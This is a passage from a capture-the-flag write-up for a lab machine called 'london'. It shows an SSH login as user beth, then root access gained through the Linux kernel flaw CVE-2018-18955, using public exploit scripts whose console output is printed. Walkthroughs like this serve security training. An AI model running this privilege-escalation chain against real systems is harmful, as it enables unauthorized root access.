 ```console
$ ssh -i id_rsa beth@10.10.59.255
...
beth@london:~$ id
uid=1000(beth) gid=1000(beth) groups=1000(beth)
```

We can find the user flag inside `/home/beth/__pycache__/user.txt`.

```console
beth@london:~$ wc -c __pycache__/user.txt
25 __pycache__/user.txt
```

## Shell as root

Checking the kernel version reveals that it is quite old.

```console
beth@london:~$ uname -a
Linux london 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

Running `linpeas.sh` suggests the `CVE-2018-18955` vulnerability.

```console
[+] [CVE-2018-18955] subuid_shell

   Details: https://bugs.chromium.org/p/project-zero/issues/detail?id=1712
   Exposure: probable
   Tags: [ ubuntu=18.04 ]{kernel:4.15.0-20-generic},fedora=28{kernel:4.16.3-301.fc28}
   Download URL: https://gitlab.com/exploit-database/exploitdb-bin-sploits/-/raw/main/bin-sploits/45886.zip
   Comments: CONFIG_USER_NS needs to be enabled
```


For this, we will need a couple of files found [here](https://github.com/bcoles/kernel-exploits/tree/master/CVE-2018-18955).

After downloading `exploit.dbus.sh`, `rootshell.c`, `subshell.c`, and `subuid_shell.c`, and transferring them to the machine, running the exploit provides us with a shell as the `root` user, allowing us to read the root flag at `/root/.root.txt`.

```console
beth@london:/tmp/exp$ ls
exploit.dbus.sh  rootshell.c  subshell.c  subuid_shell.c
beth@london:/tmp/exp$ bash exploit.dbus.sh
[*] Compiling...
[*] Creating /usr/share/dbus-1/system-services/org.subuid.Service.service...
[.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
[.] mapping subordinate ids
[.] subuid: 100000
[.] subgid: 100000
[~] done, mapped subordinate ids
[.] executing subshell
[*] Creating /etc/dbus-1/system.d/org.subuid.Service.conf...
[.] starting
[.] setting up namespace
[~] done, namespace sandbox set up
[.] mapping subordinate ids
[.] subuid: 100000
[.] subgid: 100000
[~] done, mapped subordinate ids
[.] executing subshell
[*] Launching dbus service...
```
